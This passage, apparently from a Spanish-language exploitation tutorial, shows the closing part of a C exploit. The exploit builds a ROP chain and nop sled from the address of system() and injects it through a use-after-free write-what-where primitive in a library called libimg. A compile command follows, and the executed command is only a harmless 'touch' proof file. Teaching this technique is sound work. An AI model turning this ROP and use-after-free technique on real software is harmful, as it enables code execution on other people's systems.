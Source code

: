 ```c
  // Copiamos el string del comando a ejecutar al final de la cadena de ROP.
  strcpy((char *)&payload[4], "touch /tmp/you-win.txt");

  // Creamos el nopsled.
  uint64_t I = sizeof_nopsled/8;
  uint64_t chain[I + sizeof(payload)/8];

  for (uint64_t i = 0; i < I; i++) {
    chain[i] = addr_system - 0x22961; // nop; ret
  }

  // Copiamos la cadena al final del nopsled.
  memcpy((void*)&chain[I], (void*)&payload, sizeof(payload));

  printf("[*] Ejecutando escritura arbitraria para inyectar ROP...\n");
  uint8_t *chain_buff = (uint8_t*)&chain;
  write_what_where(addr_chain, chain_buff, sizeof(chain), vptr_GrayscaleImage, uaf_handle);

  printf("[*] Hecho, el payload debería haber sido inyectado, revisar /tmp.\n");
  printf("[-] \n");
    
  return 0;
}
```

Compilamos el exploit ejecutando

```bash
clang-8 xploit.c -g -L. -limg -o xploit
```

Debemos recordar ejecutar el programa definiendo previamente la variable `LD_LIBRARY_PATH` que indica dónde encontrar la biblioteca libimg. El siguiente GIF muestra el exploit en funcionamiento:

![anim](img/xploit.gif)
